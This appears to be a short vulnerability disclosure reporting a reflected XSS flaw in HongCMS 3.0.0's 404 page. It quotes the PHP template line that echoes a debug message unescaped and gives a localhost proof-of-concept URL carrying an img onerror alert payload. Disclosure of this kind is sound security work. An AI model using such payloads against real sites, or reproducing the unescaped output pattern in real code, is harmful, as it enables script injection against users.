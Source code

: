 ## There is a reflective XSS on the 404 page of the web site

Powered by Shiyan

##### Vulnerability analysis：

In the 404 error page, the wrong code was used, resulting in the existence of XSS vulnerability.

##### Loophole code：

`</style>
</head>
<body>
	<div id="container">
		<h1>404 Page Not Found</h1>
		<p><?php echo $debugmsg; ?></p>
		<p>您尝试访问的页面未找到!</p>
	</div>
</body>
</html>`



##### Reflected XSS PoC:

`http://127.0.0.1/hongcms_3.0.0_free/index.php/abou<img src=x onerror=alert('shiyan')>`

##### Vulnerability trigger screenshot：

![1](C:\Users\lizhonghua\Desktop\1.png)

Note: the vulnerability will be exploited by malicious users.